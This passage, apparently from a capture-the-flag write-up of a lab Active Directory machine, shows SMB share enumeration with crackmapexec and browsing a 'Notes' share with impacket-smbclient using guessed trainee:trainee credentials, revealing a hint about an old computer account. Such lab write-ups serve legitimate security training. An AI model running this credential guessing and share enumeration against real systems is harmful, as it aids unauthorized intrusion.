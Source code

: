 Unfortunately, neither have worked. Even RDP has failed.

Let's take a look at SMB again.

### Looking at SMB again

As we can remember, there was one more non-standard share.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'trainee' -p 'trainee' --shares
SMB         10.10.106.112      445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112      445    DC               [+] retro.vl\trainee:trainee 
SMB         10.10.106.112      445    DC               [+] Enumerated shares
SMB         10.10.106.112      445    DC               Share           Permissions     Remark
SMB         10.10.106.112      445    DC               -----           -----------     ------
SMB         10.10.106.112      445    DC               ADMIN$                          Remote Admin
SMB         10.10.106.112      445    DC               C$                              Default share
SMB         10.10.106.112      445    DC               IPC$            READ            Remote IPC
SMB         10.10.106.112      445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.106.112      445    DC               Notes           READ            
SMB         10.10.106.112      445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.106.112      445    DC               Trainees        READ 
```

With the new set of credentials we gained additional read permissions to some shares. Let's use `impacket-smbclient` again.

```
➜  retro impacket-smbclient trainee:trainee@10.10.106.112
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# use Notes
# ls
drw-rw-rw-          0  Mon Jul 24 00:03:16 2023 .
drw-rw-rw-          0  Wed Jul 26 11:54:14 2023 ..
-rw-rw-rw-        248  Mon Jul 24 00:05:56 2023 ToDo.txt
```

We have found another note. Let's take a look.

```
# cat ToDo.txt
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best

James
```
